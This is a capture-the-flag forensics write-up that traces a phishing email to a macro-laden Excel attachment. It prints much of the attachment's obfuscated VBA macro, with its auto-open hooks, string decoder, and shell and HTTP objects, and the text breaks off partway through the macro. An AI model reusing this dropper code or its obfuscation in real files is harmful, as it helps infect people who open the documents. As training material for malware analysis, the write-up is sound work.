In this CTF, I was shocked to know the ages of some of the organizers. Crazy, we have people in high-school [10th onwards] conducting International CTFs on a zero budget. Really Impressive as hell. Shout-out to `@$h1kh4r` and `@Inv1s1bl3`. Well we, `H7Tex` placed 9th overall. It's a bummer we weren't able to get into the prize division. Let’s get into it.

```bash
Authors: AbuCTF, PattuSai, SHL, MrGhost, MrRobot, Rohmat
```

## Forensics

### FOR101

**Description**: 

An employee of MDSV company received a lottery winning letter. Because of greed, that employee opened that email and as a result, the company's computer was attacked. Luckily, the SOC department was able to capture the disk image and blockade that employee's computer. Your task is to conduct investigation, analysis and retrieve the flag.

**Challenge file**:

[Drive Link](https://drive.google.com/file/d/1PF9DFZoNhb61bs3k0kcuyFEe5U_kA7LR/view)

**Author**: `@Anhshidou`

Quite an interesting challenge, that involves going through an entire Windows C directory and finding the right target to further enumerate.

 

```bash
┌──(abu㉿Abuntu)-[<>/OSCTF/forensics/Big]
└─$ ls -la
total 816748
drwxrwxrwx 1 abu abu       512 Jul 13 20:52 .
drwxrwxrwx 1 abu abu       512 Jul 14 11:51 ..
-rwxrwxrwx 1 abu abu 417587928 Jul 13 19:15 Users.zip
```

We’ve been given this massive file, which we need to unzip and proceed with playing around. At first, I fell into the rabbit hole of investigating `NTUSER.DAT` files. But that didn’t go so well, so I searched around a bit more and found some interesting stuff.

```bash
┌──(abu㉿Abuntu)-[<>/extractedFiles/Users/Administrator/Downloads/Outlook Files]
└─$ file Notifications.eml
Notifications.eml: multipart/mixed; boundary="===============1582594319==", ASCII text, with CRLF line terminators
```

Here’s something on `EML files`, An EML file is an email message saved by an email application such as Microsoft Outlook, Windows Mail, or Apple Mail. These files are formatted according to the MIME (Multipurpose Internet Mail Extensions) RFC 822 standard, allowing them to be compatible with various email clients. 

```bash
└─$ cat Notifications.eml
Content-Type: multipart/mixed; boundary="===============1582594319=="
MIME-Version: 1.0
From: mmb1234@example.com
To: maikanizumi@example.com
Subject: Credit Card For Free

--===============1582594319==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

You have won $10,000. I have sent you a credit card containing your bonus. 
Because this is a gift of great value, it will be kept confidential. 
Password is CreditsCardForFree
--===============1582594319==
Content-Type: application/octet-stream
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="CreditsCard.zip"

UEsDBBQACQBjAHqQ6Fgjz4wWgd0FAATrBQAOAAsAQ3JlZGl0czY5Lnhsc20BmQcAAQBBRQMIALCJ
haRRXhXXhdwy9Ql6IXQgIO4ovBCASOLtQUM0nDO2NjbgjTdHMrqMwlFb88f474QaR6UAZ8wLmO85
Mvn4RQUoXFP3ry4BGkRi1V8Tmf7baZeBJKYHC7EmLhqkWtzsduispUUr+9bSgLngwvZi3GTJVFrb
09Mq9xu2ke5U+OMEqpIOvxxIb7qvKCKrEQF2llS4Spa4iYGPzx25wbsdpU9Prvq6fvPJTF1K60zD
AEUAZZVZsxxQyE1e4WQHce5g3JgpV0X3e5l25bABVHjpMu+X851phm3QClEZqRTwQn4Q1vlbkaRm
hQPjON7U+A+vQfJL8fqOIVbpVgdD18IT0iU1cpoS6Cu5dTY6Ldra9SUu9TcVJO7qIE/PlqZsQil0
5E9rt7le+zjpaaBLorwPqTooFg+A/n0jJzlHLg0spqu6r90srYI/9N
```

We get the above message and also get raw bytes for a zip file named `CreditsCard.zip`. Quick Disclaimer, this challenge seemed to be copied from a different event and the funniest thing is the author was also a participant of the event. Shout-out to `@**bquanman`** for ****making this awesome challenge. 

You can either use `cyberchef` or just use the `echo` command to convert the raw bytes into a zip file.



Now, go ahead and unzip the file.

```bash
└─$ 7z x download.zip -pCreditsCardForFree

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 384585 bytes (376 KiB)

Extracting archive: download.zip
--
Path = download.zip
Type = zip
Physical Size = 384585

Everything is Ok

Size:       387844
Compressed: 384585
```


This notification popped up almost instantly! That’s because I use a `WSL2` , so just go ahead and allow this specific file in Windows Security.

```bash
└─$ file Credits69.xlsm
Credits69.xlsm: Microsoft Excel 2007+
```


We find an `xlsm` file with `macros` . So, onwards with `Oletools`. Specially `Olevba` .

```bash
└─$ olevba
olevba 0.60.2 on Python 3.11.9 - https://decalage.info/python/oletools

olevba.py

olevba is a script to parse OLE and OpenXML files such as MS Office documents
(e.g. Word, Excel), to extract VBA Macro code in clear text, deobfuscate
and analyze malicious macros.
XLM/Excel 4 Macros are also supported in Excel and SLK files.

Supported formats:
    - Word 97-2003 (.doc, .dot), Word 2007+ (.docm, .dotm)
    - Excel 97-2003 (.xls), Excel 2007+ (.xlsm, .xlsb)
```

Running it, gives a us a huge list of suspicious scripts and strings.

 

```bash
└─$ olevba --decode --deobf Credits69.xlsm
olevba 0.60.2 on Python 3.11.9 - https://decalage.info/python/oletools
===============================================================================
FILE: Credits69.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |DocumentOpen        |Runs when the Word document is opened        |
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|adodb.stream        |May create a text file                       |
|Suspicious|SaveToFile          |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Shell.Application   |May run an application (if combined with     |
|          |                    |CreateObject)                                |
|Suspicious|microsoft.xmlhttps   |May download files from the Internet         |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|VBA obfuscated      |VBA string expressions were detected, may be |
|          |Strings             |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Hex String|'\x01#Eg'       |0123456789abcdef                             |
|Hex String|'\x00\x02\x08\x19'  |00020819                                     |
|Hex String|'\x00\x00\x00\x00\x0|000000000046                                 |
|          |0F'                 |                                             |
|Hex String|'\x00\x02\x08 '     |00020820                                     |
|VBA string|200                 |Chr(50) + Chr(48) + Chr(48)                  |
+----------+--------------------+---------------------------------------------+
```

So, the point is to be able to investigate what the following malicious macro script was doing.

```bash
VBA MACRO Module1.bas
in file: xl/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub Auto_Open()
Workbook_Open
End Sub
Sub AutoOpen()
Workbook_Open
End Sub
Sub WorkbookOpen()
Workbook_Open
End Sub
Sub Document_Open()
Workbook_Open
End Sub
Sub DocumentOpen()
Workbook_Open
End Sub
Function ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»· = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂĂÄÅ̉ÓÔƠÖÙÛÜàáâăäåض§Ú¥"
»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢ = "ăXL1lYU~Ùä,Ca²ZfĂ@dO-cq³áƠsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(̉Sw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© = InStr(¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·, Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1))
If ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© > 0 Then
¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®« = Mid(»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢, ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©, 1)
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + ¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«
Else
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1)
End If
Next
ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨ = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»
For ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° = 1 To Len(®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦²)
®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦² = ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶°
Next
For ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» = 2 To Len(£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦)
£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ = 2
Next
For »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· = 3 To Len(»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸)
»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ = »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£·
Next
For ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ = 4 To Len(´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤·)
´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤· = 2
Next
End Function
Sub Workbook_Open()
Dim ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ As Object
Dim ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ As String
Dim ¤¸¿º«¡¬¡°µ²¢¹¾¿¡¼²¥¾®¨¶µ»¾«º½¼»ª²¢¾ª¤»¹¬»¾»¸¤µµ°¡§¬¿§¢¥§¥£¶¢¥©¨ As String
Dim §»¶¬¡¦¹³¾¸¸³££¹´´¸³¥¦´¢¹¥··£°¿²»º¶°°¥©²¢°¾ª«°©«®·½½··´®¹°µµ©½½§¥·°»¢¼¼´¡¦¡«¹ As String
Dim ¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ As Integer
¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ = Chr(50) + Chr(48) + Chr(48)
Set ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ = CreateObject("WScript.Shell")
¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ = ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§.SpecialFolders("AppData")
Dim ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼
Dim ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
Dim ¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©¶
Dim ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° As Long
Dim ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» As String
Dim ¿¨¡©§¾¡º·¼½µ¡®¾¥¼½«¹´¥¥¶²°»¤¡·»°¬£°¿¥§¬¸©º¢¾¥·´£¹¥¡½¬¸ª´º°»§¬¥¡£¢¦»·¶ As Long
Dim »¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ As String
Dim »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· As Long
Dim ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ As String
Dim °»»¦¡½º®¤¼º¬³¤³º¸¶®¨½®©µ«¢´¾´··¦«º¬º°¥²ª¹«¿º¼£º·¦¢¬°¢¾§µ²° As String
Dim £©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ As Long
Dim ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬
Dim ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥
Dim ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ As Integer
Dim ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²
Dim ®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©
¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ = 1
Range("A1").Value = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("4BEiàiuP3x6¿QEi³")
Dim ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ As String
´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³ = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "̉xP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiP̉Ü_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³)
MsgBox ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤, vbInformation, ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª As Date
Dim ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ As Date
¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª = Date
¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ = DateSerial(2024, 7, 8)
If ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª < ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ Then
Set ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸² = CreateObject("microsoft.xmlhttps")
Set ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥ = CreateObject("Shell.Application")
³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬ = ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ + ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("\k¿i6Ü_~Bb@")
